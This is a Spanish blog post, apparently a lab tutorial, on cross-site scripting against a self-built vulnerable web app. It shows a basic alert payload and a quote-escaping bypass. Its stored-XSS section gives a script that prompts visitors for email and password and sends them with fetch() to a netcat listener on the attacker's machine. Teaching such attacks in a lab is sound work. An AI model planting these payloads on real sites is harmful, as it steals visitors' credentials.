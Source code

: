 ```yaml
---
title: Vunerabilidad XSS
excerpt: Explotación XSS
publishDate: 'Oct 02 2025'
tags:
  - xss
seo:
  image:
    src: '/xss.png'
    alt: Imagen creada con Chat GPT
---
```


![xss](/xss.png)

***Resumen***: La vulnerabilidad consiste en inyectar código malicioso en una web, pudiendo así almacenarlo para que se ejecute cada vez que el usuario visite una parte de la página, como un comentario o un post en concreto.
En este artículo, vamos a ver la forma básica y la almacenada.

***Nota***: Este laboratorio ha sido creado por y para este post con chatGPT, no utilices esta vulnerabilidad con sitios que no tengas permiso.

***Procedimiento***: Una vez tenemos comprobación de que la web es vulnerable, procedemos a inyectar código malicioso para bien robar credenciales o infectar una máquina.

## XSS Básica

El laboratorio es una web vulnerable, donde vamos a inyectar un código para que nos muestre una alerta en javascript. Para acceder a dicha web solo tienes que decirle a chatGPT que te lo cree y desplegarlo en Docker.

[![laboratorio_xss](/Laboratorio_xss.png)](/Laboratorio_xss.png)

Inyectaremos el siguiente código que debe mostrarnos una alerta por pantalla:

```bash
<script>alert(1)</script>
````
[![crear_alerta](/Crear_alerta.png)](/Crear_alerta.png)

Al entrar en el mensaje tendremos la ejecución del script.

[![1_xss](/1_xss.png)](/1_xss.png)

Con esto ya tenemos XSS básico y una comprobación de que la web es vulnerable.

## XSS almacenado

Vamos a inyectar un código en otro comentario donde nos pida las credenciales y nos las envíe a nuestra máquina donde estaremos escuchando con nuestro querido nc.

```bash
<script>
  var correo = prompt("Introduce tu correo: ");
  var password = prompt("Introduce tu contraseña: ");
  fetch("http://192.168.1.42:4444/ + correo + password);
</script>
````

[![nc_xss](/nc_xss.png)](/nc_xss.png)

Ahora al visitar o recargar el comentario, nos pedirá las credenciales.

[![pide_xss](/pide_xss.png)](/pide_xss.png)

Y vemos como llegan las credenciales.

[![credenciales_xss](/credenciales_xss.png)](/credenciales_xss.png)

## Bypass restricciones

Pero puede que nuestro payload no funcione, bien porque la web está protegida o bien por que determinada palabra esté censurada. Una manera de poder solucionarlo es encerrar la etiqueta anterior entre comillas, así:

```bash
 "><script>alert(1)</script>
 ````
Si existen palabras protegidas que nos impidan ejecutar el payload, solo tenemos que usar otro que facilmente encontraremos por internet. [eventos_xss](https://github.com/payloadbox/xss-payload-list)

[![eventos_xss](/eventos_xss.png)](/eventos_xss.png)











